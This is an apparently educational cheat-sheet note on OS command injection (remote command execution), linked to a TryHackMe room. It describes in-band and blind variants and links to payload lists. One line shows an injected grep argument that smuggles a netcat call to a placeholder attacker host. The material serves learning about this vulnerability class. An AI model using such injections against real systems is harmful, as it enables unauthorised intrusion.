 # Remote command execution (RCE)

[![oscommandinjection](../../../_badges/thmp/oscommandinjection.svg)](https://tryhackme.com/room/oscommandinjection)

<div class="row row-cols-md-2"><div>

Some websites may use the underlying system to run commands. For instance, a website on Linux might use `grep`, `sed`, or other utilities to do things faster/easier. A **remote command execution** (RCE), or in short **command injection**, occur when a developer use user input in such commands without proper sanitization/measures.

`grep $injectable reports/` $\to$ `grep -V; nc hacker_ip port #reports/`

> See [PayloadsAllTheThings/Command injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)<br>
> See [command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)
</div><div>

As always, there are

* **Regular/in-band RCE**: the user receive the result of the command
* **Blind/out-band RCE**: the hacker must use another way to know the result.
  * Using redirections/flags, create a URL-accessible output file
  * Using commands such as `sleep`/... to do a time-based attack
</div></div>